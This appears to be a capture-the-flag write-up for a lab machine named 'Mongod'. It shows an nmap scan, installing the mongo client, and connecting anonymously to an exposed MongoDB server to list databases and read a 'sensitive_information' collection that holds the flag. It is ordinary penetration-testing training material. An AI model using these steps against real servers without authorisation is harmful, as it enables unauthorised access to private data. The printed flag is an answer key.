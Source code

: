 # Mongod

# TL;DR

- Simple machine running the MongoDB server that allows anonymous user login. We are able to connect to the server using the `mongodb` utility.

# Enumeration

- `ping 10.129.166.53` : to test if the server us up and running.
- We scan the host to determine running services:
```
nmap -p- --min-rate=1000 -sV 10.129.166.53
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-01 19:36 PST
Nmap scan report for 10.129.166.53
Host is up (0.085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.43 seconds

```
- From the scan we find the following service(s) running:
    - `ssh` on port`22/tcp`
    - `mongod` on port `27017/tcp` 

# Foothold

 - Since there are only two ports open we can start with the interesting one, the port running MongoDB service.
 - We can run `curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz` to download the `mongodb` utility, if it does not already exist on the local host.
 - We can extract the contents of the tar archive file using the `tar` utility: `tar xvf mongodb-linux-x86_64-3.4.7.tgz`
 - Next we need to navigate to the location where the `mongo` binary is present: `cd mongodb-linux-x86_64-3.4.7/bin`
 - We can then use the binary to connect to the MongoDB server: `./mongo mongodb://10.129.166.53:27017`
 - Once connected to the host we can run the following commands to retrieve the flag (Note: MongoDB is designed in the following way: `Database->Collection->Document`):
    - To show all the databases on the server:
        ```
        > show dbs
        admin                  0.000GB
        config                 0.000GB
        local                  0.000GB
        sensitive_information  0.000GB
        users                  0.000GB
        ```
    - To use the database we deem interesting:
        ```
        > use sensitive_information;
        switched to db sensitive_information
        ```
    - Once we are using the specified database we can list all the collections in that database:
        ```
        > show collections;
        flag
        ```
    - To print the contents of a particular document in the collection:
        ```
        > db.flag.find().pretty();
        {
                "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
                "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
        }
        ```